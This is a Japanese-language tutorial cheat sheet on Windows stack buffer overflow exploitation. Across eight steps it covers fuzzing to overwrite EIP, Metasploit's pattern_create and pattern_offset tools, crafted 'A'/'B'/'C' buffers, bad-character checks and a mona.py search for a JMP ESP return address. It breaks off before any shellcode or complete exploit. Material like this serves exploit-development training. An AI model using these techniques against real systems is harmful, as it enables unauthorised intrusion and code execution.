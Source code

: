 またはBashで不良文字列リストを作成する

```
for i in {1..255}; do printf "\\\x%02x" $i; done; echo -e "\r"
```

Pythonの場合は

```
'\\'.join([ "x{:02x}".format(i) for i in range(1,256) ])
```

## Windows

#### Immunity-Debuggerのダウンロード

https://softfamous.com/immunity-debugger/download/

ステップ1：クラッシュするまでファズし、EIPがA（x41）で上書きされることに注意してください。

ステップ2： pattern_create.rbを使用して文字列を生成し、それをターゲットに送信します

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700
```

ステップ3： EIPを上書きする4バイトを特定します（これはHEXにあります）

ステップ4： pattern_offset.rbを使用して、これらの特定の4バイトのオフセットを計算します

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q 39694438
```

ステップ5：新しいバッファ文字列を送信して、EIPレジスタを制御できるかどうかを確認します。これはBで上書きする必要があるためです。ESPおよびEIPレジスタの結果を悪用して通知するために追加します。

```
buffer = "A" * 2606 + "B" * 4 + "C" * 90
```

ステップ6：バッファ内で使用可能なスペースが多いかどうかを確認します（バッファ長を2700バイトから3500バイトに増やして、シェルコードのバッファスペースが大きくなるかどうかを確認します）。

「morespace.py」を起動します-> ESPを右クリックします->ダンプをフォローします。エクスプロイトに追加し、Cをチェックします。

```
buffer = "A" * 2606 + "B" * 4 + "C" * (3500 – 2606 - 4)
```

ステップ7：不正な文字（0x00から0xff）を確認します。これらすべての文字をバッファ内に貼り付け、ESPレジスタダンプが切り捨てられる場所を確認します。ESPを右クリックし、ダンプをたどって確認します。

```
＃スキップされた文字に注意する
```

ステップ8：バッファに直接ジャンプできない場合は、JMPESPなどの命令を含む信頼できるアドレスをメモリ内で見つける必要があります。そこにジャンプすると、ジャンプ時にESPレジスタが指すアドレスに到達する可能性があります。これは、ESPレジスタによって示されるメモリに到達するための信頼できる間接的な方法です。mona.pyは、リターンアドレスを検索できるメモリ内のモジュールを特定するのに役立ちます（DEPおよびASLRが存在しない必要があり、不正な文字を含まない高メモリ範囲）

```
!mona modules
```
